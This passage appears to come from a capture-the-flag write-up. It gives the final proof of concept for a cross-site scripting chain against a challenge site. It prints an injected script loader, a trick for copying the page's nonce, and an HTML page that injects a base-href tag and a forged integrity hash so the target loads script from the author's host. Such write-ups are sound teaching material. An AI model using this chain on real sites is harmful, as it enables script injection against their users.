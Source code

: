 Our `frame-analytics.js` file becomes:

```js
xss = document.createElement("script");
xss.textContent = "alert(origin)";
parent.document.body.appendChild(xss);
```

Note that we don't need to set a nonce, presumably because the script is being
created by a "trusted" script. But if needed it would be easy to set a valid
nonce with:

```js
xss.nonce = parent.document.scripts[0].nonce
```

### Final PoC

We simply need to host those two web pages:

1. https://acut3.xyz/files/analytics/js/frame-analytics.js:

   ```js
xss = document.createElement("script");
xss.textContent = "alert(origin)";
parent.document.body.appendChild(xss);
   ```

   Returned with the required header:

   ```http
   Access-Control-Allow-Origin: *
   ```

1. The main page:

   ```html
   <!DOCTYPE html>
   <html>
   <head>
   <meta charset="utf-8">
   <script>
   function popup() {
       var payload = encodeURIComponent(
           '</title>'
           + '<base href="https://acut3.xyz/">'
           + '<input hidden id="fileIntegrity" value="8rWlnRQdot2DeuCE0IKb7kw4BhGMRbQeOITSE876IQs=">'
       );
       window.open('https://wacky.buggywebsite.com/frame.html?param=' + payload,
                   'iframe'); // Sets name to "iframe" in the new window
   }
   </script>
   </head>
   <body>
   <a href="#" onclick="popup()">Click me!</a>
   </body>
   </html>
   ```
